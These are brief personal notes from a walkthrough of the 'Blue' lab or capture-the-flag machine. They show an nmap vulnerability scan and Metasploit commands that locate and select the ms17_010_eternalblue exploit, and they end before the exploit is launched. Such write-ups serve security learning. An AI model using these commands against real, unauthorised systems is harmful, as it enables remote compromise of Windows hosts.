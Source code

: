 # Blue

## initial  Nmap scan for vulnerabilities
command used:
`sudo nmap -A -o filename -vvv -Pn --script=vuln ipadress`
aggressive, don't ping, output to file, run vulnerabilities script
finds vulnerability ms17-010

## finding exploit on metasploit
`msfconsole` `search ms17-010`
we find promising exploit/windows/smb/ms17_010_eternalblue
`use exploit/windows/smb/ms17_010_eternalblue`
show options to see what we need to fill in, looks like just rhosts

